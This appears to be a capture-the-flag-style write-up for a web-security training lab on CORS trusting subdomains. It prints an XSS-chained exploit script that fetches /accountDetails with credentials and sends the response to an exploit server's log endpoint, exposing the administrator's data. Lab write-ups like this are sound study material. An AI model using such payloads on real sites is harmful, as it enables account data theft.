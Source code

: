 Following similar steps as in previous labs we find the header `Access-Control-Allow-Credentials: true` in the response of a **GET** request to `/accountDetails` page.
Next, after some testing you'll find the CORS policy only allows a requester origin coming from one of its subdomains. For e.g, `http://stock.acbd1fc51efead7380b90e29008b00b7.web-security-academy.net/?productId=1&storeId=1`

![image](https://user-images.githubusercontent.com/86168235/127906926-39982f19-93c3-4588-9e4e-bf62b07eb076.png)

After checking for vulnerable params, we find that the `productId` parameter is vulnerable to XSS. To test this, visit a product page and click on `Check stock` and intercept the request with Burp. Modify the request as follows:-

![image](https://user-images.githubusercontent.com/86168235/127907033-f8a06d1d-62ee-46c2-bb21-369f356c19a8.png)

Then `forward` the request and you'll see the classic `xss` prompt response in the browser.

![image](https://user-images.githubusercontent.com/86168235/127907176-ec249fe2-cb11-4e92-a5fc-286deaa07cab.png)


## Exploitation
Go to the exploit server and paste the following script in the `Body` box after editing the respective urls to match your lab urls.

```
<script>
   document.location="http://stock.acbd1fc51efead7380b90e29008b00b7.web-security-academy.net/?productId=1<script>const xhr = new XMLHttpRequest(), method = 'GET', url = 'https://acbd1fc51efead7380b90e29008b00b7.web-security-academy.net/accountDetails';function handler() {location='https://exploit-ac3f1fb11e9fad8a80200e44017100c1.web-security-academy.net/log?body='%2bthis.responseText; }; xhr.onload = handler; xhr.open(method, url,true); xhr.withCredentials = true;xhr.send();%3c/script>&storeId=1"
</script>
```

Then click on `Deliver exploit to victim` and check the `Access log` of the exploit server and we see the `/accountDetails` of the administrator user in access logs.

![image](https://user-images.githubusercontent.com/86168235/127907363-00318ca4-b254-4601-a9b8-e11bae7071a7.png)

